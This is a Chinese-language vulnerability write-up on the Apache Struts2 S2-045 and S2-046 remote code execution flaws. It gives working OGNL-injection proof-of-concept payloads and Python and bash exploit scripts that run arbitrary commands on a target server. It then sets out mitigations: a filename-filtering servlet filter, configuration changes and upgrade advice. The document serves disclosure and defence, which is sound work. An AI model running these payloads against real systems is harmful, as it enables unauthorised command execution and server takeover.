


漏洞简介 Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。国内外都有大量厂商使用该框架。
Struts 2中此次存在远程代码执行漏洞(RCE)，主要是处理复杂数据类型时的默认解析，例文件上传，Jakarta Multipart parser，异常处理不当，进入buildErrorMessage触发点，导致OGNL代码执行。s2-045 中发现是Content-Type出现异常处理不当。s2-046 中发现Content-Disposition的filename存在空字节时，或者是当使用JakartaStreamMultiPartRequest(<constant name="struts.multipart.parser" value="jakarta-stream" />)时，Content-Length 的长度值超长。
影响版本 Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
漏洞自测触发POC (来源网络) UDPATE: 2018-06-23 change “{ #” to “ '{#' “ for hexo or {#
攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程代码执行。
查看struts 2.3.15.1版本
S2-045 PoC_1 Content-Type: haha~multipart/form-data %{#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec('calc')};
S2-045 PoC_2 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import urllib2import sysfrom poster.encode import multipart_encodefrom poster.streaminghttp import register_openersdef poc () : register_openers() datagen, header = multipart_encode({"image1" : open("tmp.txt" , "rb" )}) header["User-Agent" ]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36" header["Content-Type" ]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" request = urllib2.Request(str(sys.argv[1 ]),datagen,headers=header) response = urllib2.urlopen(request) print response.read() poc()
S2-046 PoC_1 在Struts 2.3.20以上的版本中，Struts2才提供了可选择的通过Streams实现Jakarta组件解析的方式。<constant name="struts.multipart.parser" value="jakarta-stream" />才能触发。
触发漏洞的代码在 JakartaStreamMultiPartRequest类中，processUpload函数处理了content-length长度超长的异常，导致问题触发。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 private void processUpload (HttpServletRequest request, String saveDir) throws Exception { if (ServletFileUpload.isMultipartContent(request)) { boolean requestSizePermitted = isRequestSizePermitted(request); ServletFileUpload servletFileUpload = new ServletFileUpload(); FileItemIterator i = servletFileUpload.getItemIterator(request); while (i.hasNext()) { try { FileItemStream itemStream = i.next(); if (itemStream.isFormField()) { processFileItemStreamAsFormField(itemStream); } else { if (!requestSizePermitted) { addFileSkippedError(itemStream.getName(), request); LOG.warn("Skipped stream '#0', request maximum size (#1) exceeded." , itemStream.getName(), maxSize); continue ; } processFileItemStreamAsFileField(itemStream, saveDir); } } catch (IOException e) { e.printStackTrace(); } } } }
触发点
1 LOG.warn("Skipped stream '#0', request maximum size (#1) exceeded." , itemStream.getName(), maxSize);
原文
burp修改大小发送请求失败时候，可以试着去掉菜单栏Repeater-->Update Content-Length的勾选，然后进行实验，这样修改的大小不会在被burp修改。
1 2 3 4 5 6 7 8 9 10 11 12 POST /doUpload.action HTTP/1.1 Host: localhost:8080 Content-Length: 10000000 Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z Connection: close ------WebKitFormBoundaryAnmUgTEhFhOZpr9z Content-Disposition: form-data; name="upload"; filename="%{# context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}" Content-Type: text/plain Kaboom ------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 import sockethost="xxxxx" se=socket.socket(socket.AF_INET,socket.SOCK_STREAM) se.connect((host,80 )) se.send("GET / HTTP/1.1\n" ) se.send("User-Agent:curl/7.29.0\n" ) se.send("Host:" +host+"\n" ) se.send("Accept:*/*\n" ) se.send("Content-Type:multipart/form-data; boundary=---------------------------735323031399963166993862150\n" ) se.send("Connection:close\n" ) se.send("Content-Length:1000000000\n" ) se.send("\n\n" ) se.send("-----------------------------735323031399963166993862150\n" ) se.send('Content-Disposition: form-data; name="foo"; filename="%{#context[\'com.opensymphony.xwork2.dispatcher.HttpServletResponse\'].addHeader(\'X-Test\',\'Kaboom\')}"\n' ) se.send("Content-Type: text/plain\n\n" ) se.send("x\n" ) se.send("-----------------------------735323031399963166993862150--\n\n" ) while True : buf = se.recv(1024 ) if not len(buf): break print buf
原文
S2-046 PoC_2 header中的Content-Disposition中包含空字节。

1 2 3 4 5 6 7 8 9 10 11 12 13 # !/bin/bash url=$1 cmd=$2 shift shift boundary="---------------------------735323031399963166993862150" content_type="multipart/form-data; boundary=$boundary" payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}") printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
验证截图

360安全客
S2-046 PoC_3 S2-046-PoC
Struts2漏洞利用工具 shack2的Struts2漏洞利用工具
修复建议 严格过滤 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
实际上，我们只需在struts的filter之前，添加上自己的filter，提前触发Content-Type 、filename的相关验证就行了。
添加filter示例
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 package com.strutsfilter;import java.io.BufferedReader;import java.io.IOException;import java.io.InputStream;import java.io.InputStreamReader;import java.io.PrintWriter;import java.util.Locale;import java.util.regex.Matcher;import java.util.regex.Pattern;import javax.servlet.FilterChain;import javax.servlet.ServletContext;import javax.servlet.ServletException;import javax.servlet.ServletRequest;import javax.servlet.ServletResponse;import org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter;public class Struts2Filter extends StrutsPrepareAndExecuteFilter @Override public void doFilter (ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException { String contentType = null ; int contentLength = request.getContentLength(); ServletContext sctx = request.getServletContext(); String params = sctx.getInitParameter("content-type-param" ); if (request.getContentType() != null ) { contentType = request.getContentType().toLowerCase(Locale.ENGLISH); if (params.contains(contentType) && contentLength < 2097152 ) { super .doFilter(request, response, chain); } } contentType = contentType.contains("," ) ? contentType.split("," )[0 ].trim() : contentType.split(";" )[0 ].trim(); if (contentType != null && contentLength < 2097152000 ) { if (!Contain_space(request)) { super .doFilter(request, response, chain); } else { PrintWriter writer = response.getWriter(); writer.write("reject!" ); writer.flush(); writer.close(); } } } public boolean Contain_space (ServletRequest request) try { InputStream is = request.getInputStream(); BufferedReader read = new BufferedReader(new InputStreamReader(is, "utf-8" )); StringBuilder sb = new StringBuilder(); String tmp = null ; while ((tmp = read.readLine()) != null ) { sb.append(tmp + "\r\n" ); } Pattern pattern = Pattern.compile("filename(.*?)\r\n" ); Matcher matcher = pattern.matcher(sb.toString().toLowerCase(Locale.ENGLISH)); while (matcher.find()) { String filename = matcher.group(); if (filename.contains("\\0b" ) || filename.contains(" " ) || filename.contains("\\u0000" ) || filename.contains("@ognl" )) { return true ; } } } catch (IOException e) { } return false ; } }
web.xml配置参考：新增的filter需要在原有struts filter之前
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 <web-app > <display-name > Struts 2 Web Application</display-name > <filter > <filter-name > struts2</filter-name > <filter-class > com.strutsfilter.Struts2Filter</filter-class > </filter > <filter-mapping > <filter-name > struts2</filter-name > <url-pattern > /*</url-pattern > </filter-mapping > <context-param > <param-name > content-type-param</param-name > <param-value > application/octet-stream,application/pdf,application/vnd.android.package-archive, application/vnd.rn-realmedia-vbr,application/x-bmp,application/x-img,application/x-javascript, application/x-jpe,application/x-jpg,application/x-png,application/x-shockwave-flash, application/x-x509-ca-cert,application/x-xls,audio/mp3,image/gif,image/jpeg,image/png, image/x-icon,image/rfc822,text/css,text/html,text/plain,text/xml,video/mpg,video/mpeg4,video/mpg, video/x-ms-wmv,application/x-www-form-urlencoded,multipart/form-data</param-value > </context-param > </web-app >
正好项目中有spring，调用了spring web的MultipartResolver，对request进行wrap。这步避免了s2-045漏洞。再补上检查filename部分就行了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 MultipartResolver resolver = new CommonsMultipartResolver(reqWrapper.getSession().getServletContext()); MultipartHttpServletRequest multipartRequest = resolver.resolveMultipart(request); Map<String,MultipartFile> fileMap = multipartRequest.getFileMap(); Collection<MultipartFile> col = fileMap.values(); Iterator<MultipartFile> itr = col.iterator(); MultipartFile file = null ; String fileName = null ; while (itr.hasNext()){ file = itr.next(); file.getName(); fileName = file.getOriginalFilename(); }
实际上检查fileName，调用到common-fileupload.jar的Streams.checkFileName()，也是可以的。
改用其他解析 改用pull
升级到Apache Struts 2.3.32或2.5.10.1版本。（强烈推荐） 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（强烈推荐）
针对Struts2的升级，可将原应用相关的依赖jar包替换为最新的Struts2包，其中，有三个包是必须要升级的：
struts2-core-2.3.32.jar：Struts2核心包，也是此次漏洞发生的所在。 xwork-core-2.3.32.jar：Struts2依赖包，版本跟随Struts2一起更新。 ognl-3.0.19.jar：用于支持OGNL表达式，为其他包提供依赖。 如果暂时不便升级，官方也已准备了两个可以作为应急使用的Jakarta插件版本，用户可以下载使用，链接地址
补丁地址Struts 2.3.32 2.3.32补丁修复方案
Struts 2.5.10.1 2.5.10.1补丁修复方案